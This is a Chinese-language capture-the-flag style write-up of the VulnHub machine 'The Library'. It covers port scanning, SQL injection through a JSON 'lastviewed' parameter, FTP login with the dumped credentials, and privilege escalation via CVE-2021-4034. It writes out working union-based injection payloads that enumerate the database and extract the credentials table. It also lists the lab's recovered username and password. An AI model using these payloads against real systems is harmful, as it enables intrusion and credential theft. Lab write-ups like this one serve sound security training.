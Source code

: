 +++
title = '0x044 The Library'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE9c8d1650c99445ba77eee28ab1e630d7截图.png)

![](/vulnhub_img/WEBRESOURCE433b5413969bf70ace6a7cf4db8f7bb9截图.png)

![](/vulnhub_img/WEBRESOURCEf4a0837874780ad099a5c1f6841754bd截图.png)

# 渗透

无匿名登录：

![](/vulnhub_img/WEBRESOURCEbdb2ca5cd78a55cb2b03a798a3e4cf0c截图.png)

然后看了一下80端口，这里有个坑点，也是没有发现sql注入的原因：

这里的payload是：{"lastviewed"=="Netherlands"}

得改成"{"lastviewed"=="'Netherlands'"}“才能正常执行功能

![](/vulnhub_img/WEBRESOURCEc9831f543ab8228a06efac4a00d350b9image.png)

![](/vulnhub_img/WEBRESOURCE62cff9ecb3c3f46cc68c730e86b322d3image.png)

后续就是手动注入：

查看版本

"{"lastviewed"=="'Netherlands'union select version();#"}"

![](/vulnhub_img/WEBRESOURCE9a363c8b7c0edf8bab6fb1b034aa90f0image.png)

判断回显："{"lastviewed"=="'Nethe11rlands'union select 1;#"}"

![](/vulnhub_img/WEBRESOURCE74d76e2f3253fe7c6299e9f63735810aimage.png)

"{"lastviewed"=="'Nethe11rlands'union select group_concat(database()) ;#"}"

查询到当前数据库为library:

![](/vulnhub_img/WEBRESOURCEf67775b0021f27fa6c9d96f7f8f41d10image.png)

"{"lastviewed"=="'Nethe11rlands'union select group_concat(table_name) from information_schema.tables where table_schema='library'#"}"

查询到当前数据库下有两个表：access,countries

![](/vulnhub_img/WEBRESOURCEe41ee384393586dada13e2660dcae22aimage.png)

查看access表里面的列名：

"{"lastviewed"=="'Nethe11rlands'union select group_concat(column_name) from information_schema.columns where table_name='access' #"}"

id,service,username,password

![](/vulnhub_img/WEBRESOURCEedf2be4d328bd9071e1e1f0acdcbe9e5image.png)

查询账号密码：

"{"lastviewed"=="'Nethe11rlands'union select group_concat('\n',id,'\n',service,'\n',username,'\n',password) from access #"}"

1

ftp

globus

AroundTheWorld

![](/vulnhub_img/WEBRESOURCEb4d0b61ff88eb911a1153974da677af0image.png)

成功连接FTP，ls发现具有html写入权限：

![](/vulnhub_img/WEBRESOURCE0593b45ff304b1c68c34895a2760d4dcimage.png)

这里最好别用echo，都是kaili里面，还是用vim吧：

![](/vulnhub_img/WEBRESOURCEd52f93a000de7f6f52a8f3507fd40f71image.png)

# 提权

2021-4034：

![](/vulnhub_img/WEBRESOURCE0739a45adf913c8b62cc72f789d3d79aimage.png)

还有一种提权方式：root密码是password，和数据库密码一样